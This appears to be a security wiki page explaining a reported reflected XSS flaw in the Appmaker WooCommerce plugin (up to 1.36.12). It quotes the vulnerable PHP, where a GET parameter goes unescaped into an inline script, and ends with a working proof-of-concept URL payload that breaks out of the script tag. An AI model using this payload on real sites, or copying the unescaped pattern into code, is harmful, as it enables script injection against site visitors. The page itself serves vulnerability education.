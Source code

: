 #### [cross-site-scripting-xss.md](../client-side/cross-site-scripting-xss.md "mention") in Appmaker

A **Reflected XSS** vulnerability was reported in Appmaker <= 1.36.12 ([details](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/appmaker-woocommerce-mobile-app-manager/appmaker-convert-woocommerce-to-android-ios-native-mobile-apps-13612-reflected-cross-site-scripting)). One of its files looks like this, with a vulnerability in the `hook_payment_footer()` method:

<pre class="language-php" data-title="class-appmaker-wc-general-hooks.php"><code class="lang-php">class APPMAKER_WC_General_hooks {
    public function __construct() {
        ...
        if ( ! empty( $_GET['payment_from_app'] ) ) {
            add_action( 'wp_head', array( $this, 'hook_stripe_enable_headers' ) );
<strong>            add_action( 'wp_footer', array( $this, 'hook_payment_footer' ) );
</strong>        }
    }
    ...
    public function hook_payment_footer() {
<strong>        $gateway = isset( $_GET['payment_gateway'] ) ? $_GET['payment_gateway'] : '';
</strong>        $output  = '
                &#x3C;script type="text/javascript">
                window.onload = function() { 
                    setTimeout(function(){
                ';
        if ( ! empty( $gateway ) ) {
<strong>            $output .= "\n\t\t" . 'document.getElementById("payment_method_' . $gateway . '").checked = true;';
</strong>            $output .= "\n\t\t" . 'document.getElementById("payment_method_' . $gateway . '").click();';
        }
        
new APPMAKER_WC_General_hooks();
</code></pre>

The `?payment_gateway=` parameter is placed directly into the DOM here. It is easily abused by closing the script tag, and then opening a new one with malicious JavaScript. This works from any page as the footer is always loaded.

<pre class="language-php" data-title="plugin.php"><code class="lang-php">class APPMAKER_WC {
    ...
        public static function init() {
		...
                // Unconditionally loads this class
<strong>		require_once dirname( __FILE__ ) . '/lib/class-appmaker-wc-general-hooks.php';
</strong>

<strong>add_action( 'plugins_loaded', array( 'APPMAKER_WC', 'init' ) );
</strong></code></pre>

{% code title="Payload" overflow="wrap" %}
```url
/?payment_from_app=1&payment_gateway=</script><img%20src%20onerror=alert(origin)>
```
{% endcode %}


[^1]: "nopriv" here implies unauthenticated&#x20;